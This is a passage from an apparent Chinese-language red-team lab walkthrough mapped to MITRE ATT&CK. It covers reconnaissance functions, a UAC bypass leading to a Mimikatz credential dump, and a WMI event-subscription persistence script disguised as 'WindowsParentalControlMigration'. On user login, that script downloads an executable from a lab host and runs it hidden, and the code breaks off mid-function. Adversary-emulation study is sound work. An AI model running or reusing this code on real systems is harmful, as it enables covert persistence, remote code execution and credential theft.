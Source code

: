 ![image](https://hackmd.io/_uploads/Hkma_b_IC.png)

#### domain 函數
這個函數用於獲取計算機所屬的域名。

![image](https://hackmd.io/_uploads/HJLA_-d8A.png)

#### user 函數
這個函數用於獲取當前登錄用戶的顯示名稱。

![image](https://hackmd.io/_uploads/BJ4gF-_UC.png)

#### pslist 函數
這個函數用於列出當前正在運行的進程。

![image](https://hackmd.io/_uploads/SJR-tbOU0.png)

### Step 14 – 提權
攻擊者通過用戶帳戶控制（UAC）繞過（T1122，T1088）提升特權。 然後，攻擊者使用新的提升的訪問許可權在自定義WMI類（T1047）中創建和執行代碼，該類將下載（T1105）並執行Mimikatz來轉儲純文本憑據（T1003），該純文本憑據經過解析，編碼和存儲在WMI中 類（T1027）。 在跟蹤WMI執行已完成（T1057）之後，攻擊者讀取存儲在WMI類中的純文本憑據（T1140）。


```powershell=
loadmoduleforce /home/kali/payloads/day2/stepFourteen_bypassUAC.ps1

PS 1> bypass
```
#### 提權
![image](https://hackmd.io/_uploads/S1l_y2b_LC.png)


### 建立持久性
攻擊者通過創建WMI事件訂閱（T1084）以在當前使用者（T1033）登錄時執行PowerShell有效負載，來建立對受害者的持久訪問的輔助手段。


這個 wmi 函數主要目的是設置一個事件觸發器，當有用戶登錄時，會自動下載並運行一個可執行文件。此腳本的用途可能包括自動化任務、系統管理、甚至是潛在的惡意活動。在實際使用中，請確保遵循合法合規的規範，並僅在授權的環境中使用。

```powershell=
PS 2>loadmoduleforce /home/kali/payloads/day2/stepFifteen_wmi.ps1

PS 2> wmi
```

```javascript=
function wmi {
	
	$FilterArgs = @{name='WindowsParentalControlMigration';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query = "SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_LoggedOnUser' AND TargetInstance.__RELPATH like '%$($env:UserName)%'";}
	$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

	$ConsumerArgs = @{name='WindowsParentalControlMigration';
                CommandLineTemplate='PowerShell.exe -C $server="http://192.168.0.101:8888";$url="$server/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("platform","windows");$wc.Headers.add("file","sandcat.go");$data=$wc.DownloadData($url);$name=$wc.ResponseHeaders["Content-Disposition"].Substring($wc.ResponseHeaders["Content-Disposition"].IndexOf("filename=")+9).Replace("`"","");get-process | ? {$_.modules.filename -like "C:\Users\Public\$name.exe"} | stop-process -f;rm -force "C:\Users\Public\$name.exe" -ea ignore;[io.file]::WriteAllBytes("C:\Users\Public\$name.exe",$data) | Out-Null;Start-Process -FilePath C:\Users\Public\$name.exe -ArgumentList "-server $server -group red-wmi" -WindowStyle hidden;'}
```